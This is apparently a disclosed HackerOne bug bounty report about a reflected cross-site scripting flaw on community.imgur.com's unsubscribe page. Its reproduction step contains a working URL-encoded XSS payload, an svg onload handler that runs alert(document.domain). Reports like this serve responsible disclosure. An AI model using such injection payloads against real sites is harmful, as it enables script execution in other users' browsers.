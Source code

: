 # Xss on community.imgur.com

## Report Details
- **Report ID**: 274868
- **URL**: https://hackerone.com/reports/274868
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-10-05T19:50:04.936Z
- **Disclosed**: 2019-09-03T19:15:32.956Z

## Reporter
- **Username**: madrobot
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: imgur

## Vulnerability Information
Hello __Team__

**Description:** 
I found a reflected cross site scripting on community.imgur.com
## Steps To Reproduce:
Visit
`https://community.imgur.com/email/unsubscribed?email=email@gmail.com%27%22%3E%3Csvg/onload=alert(document.domain)%3E`

{F226739}

__Regards__
Santhosh

## Attachments
- img.png
